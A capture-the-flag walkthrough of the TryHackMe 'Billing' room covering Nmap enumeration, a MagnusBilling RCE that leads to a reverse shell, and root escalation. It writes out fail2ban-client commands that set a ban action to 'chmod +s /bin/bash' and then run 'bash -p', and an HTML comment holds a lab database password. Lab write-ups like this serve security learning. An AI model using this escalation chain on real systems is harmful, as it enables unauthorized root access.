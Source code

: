 ```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 4
tags: RCE fail2ban 
categories: Tryhackme
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1741192887584
---
```


👋 Greetings, fellow cybersecurity enthusiasts,

As part of my ongoing preparation for the TryHackMe PT1 exam, I’ve just completed another room in the series: Billing.

In this walkthrough, I document the enumeration, exploitation, privilege escalation, and flag capture steps taken during the engagement. The aim is to reinforce key penetration testing concepts while also sharing insights that can help others preparing for the PT1 exam.

📘 Follow along as we continue building knowledge, sharpening skills, and moving one step closer to certification success.

## Enumeration

An initial TCP port scan was conducted against the target billing.thm (10.10.207.112) using Nmap with the following parameters: ports 22, 80, 3306, default scripts (-sC), service/version detection (-sV), TCP connect scan (-sT), and aggressive timing (-T4)

These were the results:
```php
                                                                                                                                        1 ✘ 
# Nmap 7.95 scan initiated Tue Mar 11 10:03:19 2025 as: /usr/lib/nmap/nmap --privileged --min-rate=10000 -p 22,80,3306 -sC -sV -sT -T4 -Pn -oA nmap_output/20250311_100319_tcp_ports billing.thm
Nmap scan report for billing.thm (10.10.207.112)
Host is up (0.40s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://billing.thm/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 11 10:03:36 2025 -- 1 IP address (1 host up) scanned in 17.00 seconds
```

### Web Enumeration

The HTTP service revealed a web application landing page for MagnusBilling. As no valid credentials were available, further research was conducted to identify potential exploits

![image.png](assets/screenshots/Billing/1.png)

A GitHub repository was found that provides a direct Remote Code Execution (RCE) vulnerability for this application.

![image.png](assets/screenshots/Billing/2.png)

Using the instructions from the GitHub repository, the Remote Code Execution (RCE) vulnerability in the MagnusBilling application was successfully leveraged. This allowed for the execution of arbitrary commands on the target system.

Following the exploit procedure, a reverse shell was obtained, providing access to the target machine:

![image.png](assets/screenshots/Billing/3.png)

## User Flag

After gaining a reverse shell on the target system, the next step was to locate the user flag. Typical locations for user flags are within the home directories of users.

On inspection, the user flag was found at the home directory of the user `magnus`:

![image.png](assets/screenshots/Billing/4.png)


<!-- asterisk@ip-10-10-17-92:/var/www/html/mbilling/protected/config$ cat /etc/asterisk/res_config_mysql.conf
<ted/config$ cat /etc/asterisk/res_config_mysql.conf             
[general]
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = BLOGYwvtJkI7uaX5
 -->


While enumerating the target after gaining a reverse shell, a potentially sensitive file was discovered:
```php
/var/www/html/mbilling/protected/config/main_production.php
```
![image.png](assets/screenshots/Billing/5.png)


This file contained important configuration details, including a reference to another configuration file with database credentials. Access to these credentials could allow direct interaction with the underlying **MariaDB** service, potentially exposing sensitive information such as application data, user accounts, and hashes.

This discovery indicated a clear path for lateral movement and privilege escalation through database exploitation.

![image.png](assets/screenshots/Billing/6.png)

I had to check if there was a mysql service running, and yes it was running and allows connection 

![image.png](assets/screenshots/Billing/7.png)


# Privilege Escalation

During post-exploitation enumeration, it was identified that **Fail2ban** was installed and actively running on the target system.  
Fail2ban monitors authentication logs and executes predefined actions (e.g., banning IPs, running scripts) when certain patterns are triggered.  

Upon further inspection, it was discovered that the Fail2ban configuration referenced an **action script** that was writable by the current user. This misconfiguration allowed modification of the script, enabling command execution with elevated privileges when Fail2ban triggered a ban event.

The syntax
```php
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

```php
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 10.23.26.210 
```

```php
ls -lna /bin/bash
```

```php
bash -p  
```


![image.png](assets/screenshots/Billing/8.png)

From there go get the root flag 😎😎

![image.png](assets/screenshots/Billing/9.png)


Looking for me?? 

![image.png](assets/screenshots/Billing/10.png)

Basically ...: Dont forget I have trust issues

Till next time

#OperationFireball #KillTheLimits #Sniper #SerialKiller #RedTeam #Pentesting #ActiveDirectory #PT1
